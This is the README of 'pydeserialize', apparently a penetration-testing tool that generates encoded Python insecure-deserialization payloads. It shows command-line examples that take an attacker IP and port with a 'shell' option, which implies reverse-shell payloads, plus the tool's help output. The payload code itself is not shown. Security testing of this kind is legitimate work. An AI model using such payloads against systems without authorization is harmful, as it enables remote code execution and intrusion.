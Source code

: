 <img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=header"/>

[![Typing SVG](https://readme-typing-svg.herokuapp.com/?color=0000FF&size=32&center=true&vCenter=true&width=1000&height=30&lines=pydeserialize)](https://git.io/typing-svg)



<h4 align="center">Tool for testing python insecure deserialization vulnerabilities</h4>


<p align="center">
  <a href="#características">Features</a> •
  <a href="#instalação">Install</a> •
  <a href="#forma-de-utilização">How to use</a> •
  <a href="#executando-pydeserialize">Usage</a>
</p>

---


O pydeserialize é uma ferramenta que gera payloads de desserialização insegura em python. Possui uma funcionalidade que faz encode das payloads desejadas e dessa forma sendo simples e otimizada para velocidade. pydeserialize é construído para fazer apenas uma coisa - gera payloads de desserialização insegura + encodes e faz isso muito bem.

Projetei o `pydeserialize` para cumprir todas as responsabilidades para gera payloads e encodes, mantive um modelo consistentemente passivo para torná-lo útil para testadores de penetração.

# Características

 - Gera payloads para explora vulnerabilidades de desserialização insegura em python    

# Forma de utilização

```sh
pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux
```
Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
```yaml
                 ,--.                            ,--.        ,--.,--.
 ,---.,--. ,--.,-|  | ,---.  ,---.  ,---. ,--.--.`--' ,--,--.|  |`--',-----. ,---.
| .-. |\  '  /' .-. || .-. :(  .-' | .-. :|  .--',--.' ,-.  ||  |,--.`-.  / | .-. :
| '-' ' \   ' \ `-' |\   --..-'  `)\   --.|  |   |  |\ '-'  ||  ||  | /  `-.\   --.
|  |-'.-'  /   `---'  `----'`----'  `----'`--'   `--' `--`--'`--'`--'`-----' `----'
`--'  `---'
     v0.0.1 - @joaoviictorti

options:
  -h, --help            show this help message and exit
  -ip IP                Insert ip
  -p PORT               Insert port
  -e {b64,shell,urlencode,hex} Insert encoding
  -o {Windows,Linux}    Insert operational system
```

